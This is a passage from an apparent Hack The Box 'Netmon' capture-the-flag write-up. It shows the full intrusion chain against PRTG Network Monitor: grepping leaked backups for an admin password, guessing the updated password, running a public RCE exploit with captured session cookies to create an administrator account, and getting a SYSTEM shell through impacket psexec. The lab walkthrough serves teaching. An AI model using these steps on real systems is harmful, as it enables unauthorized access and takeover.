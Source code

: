 We know have the 3 backup files on our box, we read all of them at once and grep for the keyword `prtgadmin` as that is the user we need to login to the website. The site is running `PRTG Netowrk Monitor` This helped us find the files that where in the ftp.

```bash
cat * | grep -A 20 -B 20 "prtgadmin"
```

This brings back a long list of results, we filter through them and find the credentials:
```php
<dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
            </dbpassword>
```
We then login to the site with theese creds but however it doesnt work, we tinker with the password and change it to `PrTg@dmin2019`
and it logs us in!

We now have access to another page which is running `PRTG Network Monitor`  like the last page.

We search for exploits and after a bit of googling we find an exploit here --> https://github.com/M4LV0/PRTG-Network-Monitor-RCE

We then use the exploit like so:
```bash
./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1"
```
We replace all the values with our cookies from inspect element/network/cookies and we run the exploit.

It creates a new user called `pentest` with the password `P3nT3st!` as administrator for the box.

After we run the exploit we can simply login with psexec.py 
```bash
kali@kali:~/boxes/netmon$ python3 /home/kali/impacket/examples/psexec.py pentest:'P3nT3st!'@netmon.htb
Impacket v0.9.22- Copyright 2020 SecureAuth Corporation

[*] Requesting shares on netmon.htb.....
[*] Found writable share ADMIN$
[*] Uploading file CxDBMiNZ.exe
[*] Opening SVCManager on netmon.htb.....
[*] Creating service NKCT on netmon.htb.....
[*] Starting service NKCT.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd ../..
 
C:\>cd Users
cd
C:\Users> Administrator
 
C:\Users\Administrator>cd Desktop
 
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 684B-9CE8

 Directory of C:\Users\Administrator\Desktop

02/03/2019  12:35 AM    <DIR>          .
02/03/2019  12:35 AM    <DIR>          ..
02/03/2019  12:35 AM                33 root.txt
               1 File(s)             33 bytes
```